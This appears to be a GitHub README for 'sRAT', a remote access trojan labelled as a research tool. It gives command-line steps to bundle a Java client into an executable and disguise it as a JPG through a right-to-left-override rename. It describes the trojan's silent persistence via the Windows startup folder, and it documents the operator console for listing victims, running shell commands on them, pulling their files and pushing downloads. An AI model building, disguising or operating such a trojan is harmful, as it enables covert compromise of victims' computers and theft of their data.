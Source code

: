 # sRAT

A small remote access trojan, for research purposes.

## git usage

Always use **branches** when implementing a *feature* or a *fix*, with syntax `feature/yourName/featureName` or `fix/yourName/bugToFix`, and be careful when merging.

## [windows] build exe

*(requires __Autoitv3__, __Aut2exe__ and __Resource Hacker__)*

 1. Compile `MainClient.java` as a runnable jar
 2. Compile `srat.au3` into an executable

		aut2exe.exe /In srat.au3 /out ann.exe /icon img.ico

 3. Add the jar file as a resource into the executable, with data-type `RCDATA` and name `JAR`

		reshacker.exe -add ann.exe ann.exe client.jar RCDATA JAR

 4. Rename file with RTLO method

    	python rtlo.py ann.exe

Then we end up with a file `annexe.jpg`, that, when executed, copies `client.jar` into current user AppData folder, and creates a `srat.bat` file in windows startup folder that silently starts the jar at startup.

## server usage

You may insert commands after the `>` prompt. At any time, you can list commands typing `help`.

**global server commands**

command        | argument | description
-------------- | -------- | -----------
`help`         |          | display all commands
`exit`         |          | close server
`list`         |          | list all connected clients
`select`       | id       | select a client, given its id. opens a connection.
`unselect`     |          | unselect the client. close the connection.
`log`          | [nRows]  | prints out the log ; if an argument is passed, prints the selected amount of lines.
`save_clients` |          | save clients info to an external file, named `clients`.

**seleted client commands**

command | argument              | description
------- | --------------------- | -----------
`info`  |                       | display all information about the selected client 
`exec`  | command               | make the client execute a given shell command
`upld`  | clientFile serverFile | upload a file from the client to the server
`dwnld` | fileUrl localFile     | make the client download a file given by its url

### select client

#### list all connected clients

To display all connected clients, use

	>list

It will output a two-column array, with ids and MACs of all connected clients.

	>list
	id     MAC address         IP Address     OS
	1234   AA-BB-CC-DD-EE-FF   /192.168.1.2   Windows 10
	5678   00-11-22-33-44-55   /192.168.1.3   Windows 7

#### select one client

To selcet a client, use `select ID`. For example,

	>select 1234
	Selected client 1234
	1234*>

It may take up to 10 seconds to connect (the time between two clients ping). Now the prompt should begin as follows:

	Client 1234 connected.
	1234>

### execute a command

When a client is selected, make it execute a command with `exec YOUR_COMMAND`.

	1234>exec ipconfig
	Added command to stack

It might take a few seconds, and then the output will be printed. If the client is using Windows, you can start any shell command with

	1234>exec cmd.exe /C YOUR_COMMAND

The output will be sent back to you.
